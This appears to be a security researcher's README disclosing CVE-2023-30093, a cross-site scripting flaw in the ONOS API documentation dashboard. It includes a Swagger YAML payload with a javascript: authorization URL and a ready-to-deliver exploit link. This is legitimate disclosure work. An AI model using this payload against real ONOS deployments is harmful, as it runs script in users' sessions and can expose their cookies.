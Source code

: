 # CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093: 

[![youtube poc](https://img.youtube.com/vi/jZr2JhDd_S8/0.jpg)](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

PoC URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml>

References
------

- <https://www.edoardoottavianelli.it/CVE-2023-30093>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-30093>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093>
- <https://github.com/advisories/GHSA-q63q-hwf6-3mw6>
- <https://www.tenable.com/cve/CVE-2023-30093>
- <https://www.opencve.io/cve/CVE-2023-30093>
- <https://avd.aquasec.com/nvd/2023/cve-2023-30093/>
- <https://cve.report/CVE-2023-30093>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5497342>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>
